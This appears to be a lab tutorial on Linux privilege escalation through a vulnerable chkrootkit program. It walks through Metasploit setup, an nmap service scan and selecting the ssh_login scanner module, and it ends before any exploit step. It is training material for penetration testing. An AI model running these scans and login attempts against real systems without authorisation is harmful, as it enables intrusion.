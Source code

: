 ## Overview

- **Privilege Escalation**: A technique used after gaining initial access to elevate privileges on the target system, typically from a low-privilege user to the root user.
- In this case, we are exploiting a vulnerable program (`chkrootkit`) that runs with elevated privileges and can be used to gain root access on a Linux system.

## Demo: Linux Privilege Escalation: Exploiting A Vulnerable Program

### Step-by-Step Process

Check network configuration:

```bash
ifconfig
```

Start PostgreSQL and launch Metasploit:

```bash
service postgresql start && msfconsole
```

Create a new workspace for the **Linux Privilege Escalation** task:

```bash
workspace -a LinuxPrivEsc
```

Set the target IP address globally:

```bash
setg rhosts [targetIP]
```

### Scanning and Initial Access

Perform an Nmap scan to identify services running on the target system:

```bash
db_nmap -sV [targetIP]
```

Search for the **SSH login** auxiliary module to attempt logging in:

```bash
search ssh_login
```

Use the **SSH login** module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Show the available options:

```bash
show options
```
